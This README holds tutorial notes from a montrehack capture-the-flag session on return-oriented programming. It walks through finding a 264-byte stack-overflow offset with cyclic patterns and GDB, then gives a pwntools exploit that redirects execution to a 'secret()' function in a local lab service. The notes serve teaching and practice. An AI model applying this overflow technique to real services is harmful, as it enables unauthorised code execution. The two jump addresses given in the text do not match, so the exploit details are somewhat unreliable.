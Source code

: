 = README

ROP from Olivier Arteau's April 2016 montrehack session

* https://github.com/montrehack/challenges/tree/master/2016-04-18[Files]
* http://montrehack.ca/2016/04/18/rop-tutorial.html

== WARNING

`rop-example` is exposing your machine. Firewall the service:

    sudo iptables -A INPUT -i wifi0 -m tcp -p tcp --destination-port 1235 -j DROP

== Stage 1 / ROP reminder

Cyclic to generate patterns

    $ cyclic 512

Make process crash

Check overwritten RIP

    info frame
    Stack level 0, frame at 0x7fffffffd8a8:
     rip = 0x400a76 in service; saved rip = 0x6361617263616171
     called by frame at 0x7fffffffd8b8
     Arglist at 0x636161706361616f, args: 
     Locals at 0x636161706361616f, Previous frame's sp is 0x7fffffffd8b0
     Saved registers:
     rip at 0x7fffffffd8a8

Convert saved rip to ascii (be mindfull of endianness)

    In [5]: '\x63\x61\x61\x72\x63\x61\x61\x71'
    Out[5]: 'caarcaaq'

    caaq -> qaac

    $ cyclic -l qaac
    264

After sending 'a' * 264 + 'ABCDEFGHIJKL'

    $ info frame
    Stack level 0, frame at 0x7fffffffd8a8:
    rip = 0x400a76 in service; saved rip = 0x4847464544434241
    called by frame at 0x7fffffffd8b8
    Arglist at 0x6161616161616161, args: 
    Locals at 0x6161616161616161, Previous frame's sp is 0x7fffffffd8b0
    Saved registers:
    rip at 0x7fffffffd8a8

Find address to jump to. The `secret()` function in this example. Encode the
address in little endian.

    struct.pack('<q', 0x0400BD1)

Working exploit:

    r = remote('localhost', 1235, timeout=1)
    r.recvuntil(': ')
    r.send(b'a' * 264 + struct.pack('<q', 0x400BC6) + b'\n')
    print(r.recvline())
